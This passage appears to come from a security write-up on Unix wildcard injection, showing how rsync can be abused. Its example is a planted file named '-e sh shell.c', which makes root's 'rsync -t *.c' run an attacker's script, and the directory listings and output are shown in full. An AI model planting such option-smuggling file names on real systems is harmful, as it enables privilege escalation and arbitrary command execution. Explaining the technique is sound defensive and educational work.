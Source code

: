 ### Rsync arbitrary command execution

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

Interesting rsync option from manual:

```none
-e, --rsh=COMMAND       specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

```none
# rsync -t *.c foo:src/
```

Directory content:

```none
[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
```

Now root will try to copy all C files to the remote server.

```none
[root@defensecode public]# rsync -t *.c foo:src/

rsync: connection unexpectedly closed (0 bytes received so far) [sender]
rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]
```

Let's see what happened...

```none
[root@defensecode public]# ls -al
total 76
drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
```